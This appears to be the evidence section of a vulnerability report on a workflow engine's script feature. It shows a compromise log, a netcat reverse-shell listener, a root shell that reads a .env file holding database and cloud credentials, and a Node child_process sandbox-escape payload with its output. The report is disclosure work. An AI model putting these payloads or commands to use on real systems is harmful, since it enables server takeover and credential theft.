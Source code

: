 ### Server Compromise Log
```
[13:50:15] ✅ Environment variables extracted
[13:50:16] ✅ Database credentials obtained
[13:50:17] ✅ Backdoor installed at /tmp/.backdoor.js
[13:50:18] ✅ Persistence mechanism added
[13:50:19] ✅ Data exfiltration complete
[13:50:20] ✅ Reverse shell established

Attacker Console:
$ nc -lvp 4444
Connection from 192.168.1.100:52341
$ whoami
root
$ pwd
/app/workflow/engine
$ cat .env
DATABASE_URL=postgresql://admin:super_secret@localhost:5432/aixblock
AWS_ACCESS_KEY_ID=AKIAIOSFODNN7EXAMPLE
AWS_SECRET_ACCESS_KEY=wJalrXUtnFEMI/K7MDENG/bPxRfiCY
```

### Screenshot Evidence
```
Workflow Execution Log:
----------------------
Workflow Name: "System Access Test"
Status: ✅ Completed Successfully
Execution Time: 145ms

Script Input:
process.mainModule.require('child_process').execSync('whoami')

Execution Output:
----------------
root

Additional Commands Executed:
-----------------------------
> pwd
/app/workflow/engine

> ls -la
total 156
drwxr-xr-x  12 root root  4096 Dec 29 10:25 .
drwxr-xr-x  15 root root  4096 Dec 29 10:20 ..
-rw-r--r--   1 root root  2048 Dec 29 10:20 .env
-rw-r--r--   1 root root   512 Dec 29 10:20 database.config.js
```

---
